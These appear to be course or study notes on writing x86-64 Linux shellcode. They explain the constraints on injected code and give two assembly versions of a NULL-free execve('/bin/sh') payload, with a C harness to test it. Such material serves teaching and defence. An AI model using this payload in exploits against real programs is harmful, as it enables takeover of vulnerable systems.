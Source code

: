 +++
title = 'Shellcode'
+++
# Shellcode
Attacker's goal:
- we found a vulnerability allowing overwriting return address
- where do we point the return address?
    - we can only execute code in same process
    - so code that is already in program
    - or code that we inject

Injecting code:
- x86 CPUs do not distinguish code and data
- if memory permissions allow, we can read/write code as data & execute data as program code
- how to inject?
    - as parameter
    - as environment variable
    - provide as input
- injected code must
    - work regardless of where it's stored in memory
    - not depend on any external code/libraries (we don't know their location)
    - not contain NULL bytes (would terminate if stored as a string)
    - do something that gives attacker control of the system, e.g start a shell

System calls:
- user code can't start program, kernel does that
- tell kernel to do this using a system call
- need `execve`, such as: `char argv[] = { "/bin/sh", NULL }; execve("/bin/sh", argv, NULL)`
- so shellcode requirements:
    - string "/bin/sh" in memory
    - array in memory, containing pointer to "/bin/sh" and NULL pointer
    - pointer to the string in `%rdi` (`progname`)
    - pointer to the array in `%rsi` (`argv`)
    - NULL pointer in `%rdx` (`envp`)
    - system call number 0x3b in `%rax` (`execve`)

Shellcode version 1:

```asm
.data
.globl shellcode
shellcode:                          ; PROBLEMS:
    leaq string_addr(%rip), %rdi    ; offset 0x22 -> 0x00000022. has null bytes
    movb $0, 0x07(%rdi)             ; explicit NULL
    movq %rdi, 0x08(%rdi)
    movq $0, 0x10(%rdi)             ; explicit NULL
    leaq 0x08(%rdi), %rsi
    movq $0, %rdx
    movl $0x3b, %eax                ; long 0x3b -> 0x0000003b. has null bytes.
    syscall
string_addr:
    .ascii "/bin/shNAAAAAAAABBBBBBBB"
    .byte 0
```

Shellcode v2:

```asm
.data
.globl shellcode
shellcode:
    jmp over_string
string_addr:
    .ascii  "/bin/shNAAAAAAAABBBBBBBB"
over_string:
    leaq string_addr(%rip), %rdi    ; offset is negative, so no nulls (0xffffffe1)
    xorl %eax, %eax                 ; zero %rax to avoid explicit 0
    movb %al, 0x07(%rdi)
    movq %rdi, 0x08(%rdi)
    movq %rax, 0x10(%rdi)           ; use %rax, avoiding explicit 0
    leaq 0x08(%rdi), %rsi
    movq %rax, %rdx                 ; use %rax, avoiding explicit 0
    movb $0x3b, %al                 ; byte reg, upper bytes all zero
    syscall
    .byte 0
```

Run with:

```c
#include <stdio.h>
int main(int argc, char **argv) {
    extern char shellcode;
    void (*f)(void) = (void (*)(void)) &shellcode;
    f();
    fprintf(stderr, "this shouldn't print");
    return -1;
}
```

Compile and run:

```sh
cc -o shellcode-test shellcode-test.c shellcode.s
./shellcode-test
```
